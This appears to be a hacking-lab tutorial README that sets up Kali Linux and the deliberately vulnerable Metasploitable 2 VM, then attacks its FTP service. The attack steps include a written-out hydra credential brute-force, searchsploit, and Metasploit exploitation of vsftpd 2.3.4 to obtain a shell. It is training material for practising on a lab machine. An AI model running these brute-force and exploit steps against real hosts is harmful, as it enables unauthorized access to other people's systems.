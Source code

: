 # Hacking-Lab
Linux + Metasploitable 2: Exploits (FTP 21/22/23)
### Prerequisite

This setup assumes you have a general understanding of networks and basic linux commands. 

### Setup

1. Download Virtual Box.
2. Download Kali Linux. - extract files into folder
3. Download Metasploitable 2.- extract files into folder
4. VM setup: Kali
    1. In VirtualBox, add file. 
    2. Go to Settings, rename it. [HackingLab]
    3. In settings, select Network > NAT Network 10.200.0/24
    4. Select start and sign in. (Credentials can be found in the VM description page)
    5. Check VM connected to internet. [ifconfig + ping google.com] - stop ping CTRL + Shift + C
5. Install Pimp My Kali [optional but recommended] (~15-20 min)
    1. Google ‘pimpmykali github’
    2.  Scroll down to ‘Installation scripts’ and copy 
        
        git clone [https://github.com/Dewalt-arch/pimpmykali](https://github.com/Dewalt-arch/pimpmykali)
        
    3. Create folder Tools [mkdir Tools]
    4. Navigate to folder [cd Tools]
    5. Run [ ./pimpmykali.sh ]
    6. Type ‘N’ for New VM setup. 
        - As it goes through, it will ask about root and copying folders. Select Yes for all.
6. VM setup: Metaspoiltable 2
    1. In VirtualBox, add file/New. 
        1. Name: MS2 | Select Machine folder | Type: Linux | Version: Linux Other 64 bit
        2. Memory size: Default ok. > Next
        3. Hard disk: Use an existing virtual hard drive > Add Metasploitable.vmdk from extracted files > Create
        4. Connect it to network: Settings > Network > NAT Network > Select the same network as first VM.
        5. Start up the MS2 VM
    2. In Kali VM, open terminal and run netdiscover -r 10.0.200.0/24
    3. In Metasploitable VM, run ifconfig - compare the ip to the netdiscover list to confirm.
    
    ![Screenshot from 2023-04-12 12-48-24.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/20cac6de-34c1-4eb0-be15-56e177f203fd/Screenshot_from_2023-04-12_12-48-24.png)
    
7. Setup users + passwords
    1. On Kali VM, run nmap -p- -sV -oN MS2.txt {IP of MS2 VM}
    
    Let nmap run and move to next steps.
    
    1. Create a users list.
        1. In new terminal tab : nano Users.txt
        2. Add users list to include: 
            
            msfadmin
            service
            user
            postgres
            
        3. Exit. Save. Confirm list created: ls
    2. Create a passwords list.
        1. In new terminal tab : nano Passwords.txt
        2. Add passwords list to include: 
            
            msfadmin
            service
            user
            postgres
            
        3. Exit. Save. Confirm list created: ls + cat

### It’s Exploit Time!

1. Exploit port 21 FTP
    1. Review MS2.txt - Notice the service (vsftpd 2.3.4) - it’s outdated and thus vulnerable for exploiting. 😈
    2. Utilize the user/password lists to gain access. 
        
        hydra -L Users.txt -P Passwords.txt {IP of MS2 VM} 
        
        This list will show the logins/passwords from your list that match.
        
    3. Login to MS2 -- sign in with user/password credentials
        
        ftp {IP of MS2 VM} 
        
    4. Confirm in MS2 directory 
        
        ls or ifconfig
        
    5. Exit out of MS2 vm: 
        
        bye
        
    6. Use searchsploit tool to see vulnerabilities associated with version (2 should appear).
        
        searchsploit vsftpd 2.3.4
        
    7. Enter into Metasploit framework. Search 
        
        mfsconsole > search vsftpd 2.3.4
        
    8. Use exploit shown and view options.
        
        use 0 
        
        show options
        
    9. Set the target host.
        
        set rhosts 10.0.200.7 > show options
        
    
    1-2-3… exploit … once you enter this, the terminal should now be MS2. 
    
    Confirm you are on MS2 : ifconfig + whoami
